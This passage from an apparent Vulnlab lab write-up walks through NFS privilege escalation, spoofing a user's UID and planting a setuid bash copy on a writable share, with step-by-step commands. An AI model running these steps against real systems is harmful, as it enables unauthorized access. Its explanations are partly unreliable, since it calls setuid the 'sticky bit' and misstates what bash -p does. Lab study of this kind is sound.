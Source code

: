 While normally we'd look for NFS privilege escalation vectors such as `no_root_squash`, we can actually exploit the `rw` parameter that is set to `/opt/share`. https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/

This next exploit goes into depth on how NFS interprets the `rw` setting and by also exploiting `peter.turner@hybrid.vl`'s UID. If we run a `id` scan on `peter.turner@hybrid.vl`, we can see that they have a UID of `902601108`.

```
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

If we create a user with the same UID, we can potentially exploit the `/bin/bash` binary by setting the sticky bit of `bash` and running it in the context of `peter.turner@hybrid.vl`. But how exactly does that make sense? Are we running `/bin/bash` as `peter.turner@hybrid.vl`? Yes and no. We're going to try and run `/bin/bash` as a user with the SAME UID as `peter.turner@hybrid.vl`. Meaning, if we create the same user on our local machine and modify the privileges to it using `rw`, we can run it in the context of `peter.turner@hybrid.vl`.

So to do this, we need to do the following:
* Remote Host: `cp /bin/bash /opt/share/`
	* Copying the `/bin/bash` executable into the NFS share.
* Local Host: `sudo useradd peter.turner@hybrid.vl -u 902601108`
	* Creating a user named `peter.turner@hybrid.vl` with the same UID as the UID on the remote machine.
	* NOTE: We will need to edit `/etc/login.defs` and change `UID_MAX` to a value greater than `902601108`.
* Local Host: `sudo su -l peter.turner@hybrid.vl`
	* Logging into the new user we created.*
* Local Host: `sudo mount -t nfs -o vers=3 10.10.231.246:/opt/share /mnt/tmpmnt -o nolock`
	* Mounting the NFS share to `/mnt/tmpmnt` once more.
* Local Host: `cp /mnt/tmpmnt/bash /tmp/tmpbash/`
	* Copying the `bash` executable to a temporary directory just so we can reset the privileges of the binary/
* Remote Host: `rm /opt/share/bash`
	* Removing the `bash` executable from the remote machine so that we can replace it with a newly configured bash executable.
* Local Host: `cp /tmp/tmpbash/bash /mnt/tmpmnt/`
	* Copying our executable back into the NFS share.
* Local Host: `chmod +s /mnt/tmpmnt/bash`
	* Configuring the sticky bit of the `bash` executable. By configuring this privilege, it is essentially saying that any user that runs this binary will run it as the context of that user.
* Remote Host: `/opt/share/bash -p`
	* We are running the `bash` binary with `-p`, which stands for `privileged mode`. This essentially means that it will set the effective user ID (EUID) to the real user ID. The binary will run with the permissions of the same user who invoked it based on the user ID. (In this case, `peter.turner@hybrid.vl`)

This should give us a shell as `peter.turner@hybrid.vl`, as denoted below.

![](/images/vulnlab/hybrid-vl/r.png)
